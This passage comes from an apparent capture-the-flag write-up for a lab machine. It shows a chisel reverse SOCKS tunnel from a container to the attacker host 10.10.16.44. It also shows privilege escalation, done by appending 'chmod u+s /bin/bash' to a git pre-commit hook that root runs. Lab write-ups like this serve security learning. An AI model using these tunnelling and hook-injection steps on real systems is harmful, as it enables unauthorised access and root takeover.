 But if we download it from the localhost:

```console
/root # wget http://127.0.0.1/uploads/chisel
	Connecting to 127.0.0.1 (127.0.0.1:80)
	saving to 'chisel'
	chisel               100% |********************************| 8544k  0:00:00 ETA
	'chisel' saved
```

This is because the container doesn’t have a direct connection to the target or our machine. 

We can use chisel on our machine:

```console
zero@pio$ sudo chisel server --port 3000 -v --reverse --socks5
```

And on the container:

```console
/app # ./chisel client 10.10.16.44:3000 R:5000:socks
```

Now we can access it on localhost:5000. We can see that is a git repository, with the previous founded credentials we can get an RSA.

# Privilege Escalation

Executing [pspy](https://github.com/DominicBreuker/pspy) we can see that it is commiting backups automatically:

```
2022/08/29 22:54:01 CMD: UID=0    PID=23023  | git commit -m Backup for 2022-08-29 
2022/08/29 22:54:01 CMD: UID=0    PID=23025  | /bin/sh .git/hooks/pre-commit 
2022/08/29 22:54:01 CMD: UID=0    PID=23026  | git push origin main 
2022/08/29 22:54:01 CMD: UID=0    PID=23032  | /usr/lib/git-core/git-remote-http origin http://opensource.htb:3000/dev01/home-backup.git
```

In [GTFObins](https://gtfobins.github.io/gtfobins/git/) we can get some info about the `pre-commit`.  Taking the example for there, let’s try modifying the bash permissions and executing it by ourselves:

```console
-bash-4.4$ echo "chmod u+s /bin/bash" >> ~/.git/hooks/pre-commit
-bash-4.4$ chmod +x !$
chmod +x ~/.git/hooks/pre-commit
bash-4.4# whoami
	root
```

